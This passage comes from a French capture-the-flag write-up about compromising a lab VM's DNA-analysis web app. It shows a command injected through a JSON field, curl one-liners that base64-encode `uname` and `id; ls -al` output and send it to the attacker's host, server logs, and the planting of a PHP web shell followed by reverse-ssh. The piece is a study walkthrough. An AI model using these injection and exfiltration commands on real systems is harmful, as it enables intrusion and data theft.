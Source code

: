 ## ADN piégé

A ce stade j'ai déja passé beaucoup de temps sur le CTF (surtout parce que le XSS est déclenché toutes les 3 minutes seulement) et je n'ai pas trop envie d'imaginer qu'il faille enchainer sur une faille SQL. Il me semblait relativement probable qu'on aurait directement un RCE.

J'ai donc passé la valeur suivante :

```js
xmlhttp.send(JSON.stringify({"id": 42, "val": "GATC;curl http://192.168.56.1/success;"}));
```

Et la VM a bien tapé sur mon URL. On voit aussi la réponse de mon serveur qui est renvoyée ensuite sur le mien via le chargement de l'image :

```
[Mon Dec 12 19:47:00 2022] 192.168.56.74:52448 Accepted
[Mon Dec 12 19:47:00 2022] 192.168.56.74:52448 [404]: (null) /success - No such file or directory
[Mon Dec 12 19:47:00 2022] 192.168.56.74:52448 Closing
[Mon Dec 12 19:47:00 2022] 192.168.56.74:52450 Accepted
[Mon Dec 12 19:47:00 2022] 192.168.56.74:52450 [404]: (null) /dna%3C/head%3E%3Cbody%3E%3Ch1%3ENot%20Found%3C/h1%3E%3Cp%3EThe%20requested%20resource%20%3Ccode%20class=%22url%22%3E/success%3C/code%3E%20was%20not%20found%20on%20this%20server.%3C/p%3E%3C/body%3E%3C/html%3E - No such file or directory
[Mon Dec 12 19:47:00 2022] 192.168.56.74:52450 Closing
```

J'ai tenté quelques commandes de reverse-shell mais une bonne partie ont échouées. Je me suis renseigné un peu sur la machine avec ce type de commande pour exfiltrer les informations :

```bash
curl http://192.168.56.1/`uname -a|base64 -w0`
```

On a bien un système 64 bits :

`Linux alphonse 4.19.0-5-amd64 #1 SMP Debian 4.19.37-5+deb10u2 (2019-08-08) x86_64 GNU/Linux`

Et concernant nos droits sur le serveur :

```bash
curl http://192.168.56.1/`(id; ls -al)|base64 -w0`;
```

Youpi, le dossier parent (`dnanalyze`) est world-writable :

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
total 40
drwxr-xr-x 2 alphonse alphonse  4096 Sep  1  2019 .
drwxrwxrwx 5 alphonse alphonse  4096 Dec  7 08:18 ..
-rw-r--r-- 1 alphonse alphonse   511 Aug 30  2019 analyze_dna.js
-rw-r--r-- 1 alphonse alphonse   632 Sep  1  2019 analyze_dna.php
-rwxr-xr-x 1 alphonse alphonse 16664 Aug 30  2019 dnanalyzer
-rw-r--r-- 1 alphonse alphonse  2083 Sep  1  2019 index.php
```

Une fois uploadé un shell PHP dedans (via `curl -o`) puis un *reverse-ssh* plus tard je peux fouiller un peu plus.

